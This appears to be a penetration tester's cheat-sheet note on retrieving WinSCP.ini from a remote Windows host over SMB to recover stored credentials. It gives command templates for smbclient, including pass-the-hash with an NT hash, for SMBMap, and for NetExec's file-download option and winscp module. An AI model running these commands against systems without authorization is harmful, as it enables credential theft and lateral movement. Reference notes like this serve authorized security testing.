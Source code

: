 # Unix Shell

## SMBClient

```
$ smbclient -U "[<domain>/]<username>%<password>" //<IP>/C$

$ smbclient -U "[<domain>/]<username>" --pw-nt-hash <nt_hash> //<IP>/C$

smb: \> more "/Program Files (x86)/WinSCP/WinSCP.ini"
```

## Impacket

```
$
```

## SMBMap

```
$ smbmap -u "<username>" -p "< <password> | <nt_hash> >" [-d <domain>] -H <IP> --download "C$\Program Files (x86)\WinSCP\WinSCP.ini"
```

## NetExec

```
$ netexec smb <IP> -u <username> -p <password> [-d <domain> | --local-auth] --get-file "/Program Files (x86)/WinSCP/WinSCP.ini" WinSCP.ini

$ netexec smb <IP> -u <username> -p <password> [-d <domain> | --local-auth] -M winscp
```

---
## References

### Backlinks

- [[07 - Tactics & Techniques & Procedures (TTPs) Phases/F - Post Exploitation/0x04 - Credential Access and Dumping/Windows/Host/Sensitive Files/Config Files/Network Protocols/SSH/Living off the Land]]

### NetExec Wiki

- [NetExec Wiki: Dump WinSCP](https://www.netexec.wiki/smb-protocol/obtaining-credentials/dump-winscp)